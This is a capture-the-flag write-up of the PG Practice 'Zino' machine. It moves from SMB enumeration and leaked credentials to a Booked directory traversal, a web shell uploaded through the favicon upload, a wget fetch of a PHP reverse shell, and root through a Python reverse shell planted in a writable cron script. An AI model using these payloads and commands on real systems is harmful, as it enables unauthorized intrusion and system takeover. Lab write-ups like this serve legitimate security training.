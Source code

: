 ```yaml
---
description: Pg Practice Zino writeup
---
```


# Zino

![](<../../../.gitbook/assets/image (792).png>)

## Nmap

```
sudo nmap 192.168.249.64 -p- -sV -sS

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql?
8003/tcp open  http        Apache httpd 2.4.38
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP

Initial check on FTP with anonymous login results in a login denied message.

![](<../../../.gitbook/assets/image (752).png>)

## SMB

We can check null authentication on the target with `smbmap`.

```
smbmap -u '' -p '' -R -H 192.168.249.64
```

![](<../../../.gitbook/assets/image (753).png>)

Looks like we have access to the 'zino' share. I will create a directory on my attacking machine and then use `smbclient` to download available files.

```
smbclient -U '' \\\\192.168.249.64\\zino                                                                                                                                                                                           1 ⨯
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> recurse
smb: \> prompt off
smb: \> mget *
```

![](<../../../.gitbook/assets/image (754).png>)

We have a few files to go through here so I will simply highlight the interesting infromation found per file.

```
File: Local.txt

53f24e8ff9809894c0a6d324f82a9fbb
```

Looks like we have a local user flag we can submit.

```
File auth.log

Apr 28 08:16:54 zino groupadd[1044]: new group: name=peter, GID=1001
Apr 28 08:16:54 zino useradd[1048]: new user: name=peter, UID=1001, GID=1001, home=/home/peter, shell=/bin/bash
Apr 28 08:17:01 zino passwd[1056]: pam_unix(passwd:chauthtok): password changed for peter
Apr 28 08:17:01 zino CRON[1058]: pam_unix(cron:session): session opened for user root by (uid=0)
```

We now know the target has a user account by the name of 'peter'.

```
File misc.log

Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

For an unknown verification we have the credentials admin: `adminadmin`.

For the moment we are finished with SMB. We should next jump into Port 80.

## HTTP

Going to the root page of http://192.168.249.64:8003 takes us to the following:

![http://192.168.249.64:8003](<../../../.gitbook/assets/image (755).png>)

Following the directory we come to the page below.

![](<../../../.gitbook/assets/image (756).png>)

I entered the credentials we found earlier of `admin:adminadmin` and was able to log in to the application.

![](<../../../.gitbook/assets/image (757).png>)

## Exploitation

A quick search for Booked exploits turns up two results. A `Metasploit` exploit and a manual exploit for directory traversal. I will concentrate on not using the `Metasploit` module for this write-up.

![](<../../../.gitbook/assets/image (758) (1).png>)

Using the above information we can read the passwd file with the following URL.

```
http://192.168.249.64:8003/booked/Web/admin/manage_email_templates.php?dr=template&lang=en_us&tn=%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&_=1588451710324
```

![](<../../../.gitbook/assets/image (759).png>)

I tried reading possible sensitive files and even for SSH keys in the root and user home directories and was unable to gain any interesting information. I decided to stop with this route now and explore the `Metasploit` module to see if I can replicate manually.

{% embed url="https://www.exploit-db.com/exploits/46486" %}

![](<../../../.gitbook/assets/image (760).png>)

From reading the description we should be able to browse to the 'Look and feel' section of the site and upload our own file in place of the favicon.ico.

## Web Shell

![](<../../../.gitbook/assets/image (761).png>)

I have uploaded a simple web shell to the favicon.ico upload section. I did try a standard PHP reverse shell but was unable to get it to talk back. After the file has been uploaded browse to the following to execute.

```
http://<IP>:8003/booked/Web/custom-favicon.php
```

![http://\<IP>:8003/booked/Web/custom-favicon.php](<../../../.gitbook/assets/image (763).png>)

For the next part I tried hosting a `Python SimpleHTTPServer` and getting the target machine to download a proper reverse shell but could not get it to talk back even on port 80 which was a bit weird. I ended up hosting my attacking machine on port 21 since FTP is running.

Attacking machine:

```
sudo Python2 -m SimpleHTTPServer 21
```

Web Shell:

```
wget http://<IP>:21/phpshell.php
```

![](<../../../.gitbook/assets/image (764).png>)

I then stopped the `Python SimpleHTTPServer` and started a `netcat` listener for the phpshell to talk back to.

Attacking machine:

```
sudo nc -lvp 21
```

I then executed the PHP shell on the web shell and received a shell back on my machine.

![](<../../../.gitbook/assets/image (765).png>)

![](<../../../.gitbook/assets/image (766).png>)

## Privilege Escalation

Likely we will need the help of `linpeas.sh` to help us with privilege escalation so I once again hosted a `Python SimpleHTTPServer` on my attacking machine and downloaded `linpeas`.

![](<../../../.gitbook/assets/image (767).png>)

After running `linpeas` and looking through the output we have a cron job that is set to run every 3 minutes that stands out.

![](<../../../.gitbook/assets/image (768).png>)

Looking at the directory where the `cleanup.py` file resides we can see that as www-data we can edit the file.

![](<../../../.gitbook/assets/image (769).png>)

Knowing that this file is executed in the context of root every 3 minutes as a cron job mean we can replace the contents of the file with something that will give us a root shell back.

First clear the content of the `cleanup.py` file with the echo command. Using an extra space in the syntax to wipe the contents of the file.

```
echo  > cleanup.py
```

Then echo the following into the file.

```
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Set a listener on the attacking machine again. I will be using port 21.

```
sudo nc -lvp 21
```

Wait around 3 minutes for the cron job to execute and you should receive a root shell back.

![](<../../../.gitbook/assets/image (770).png>)
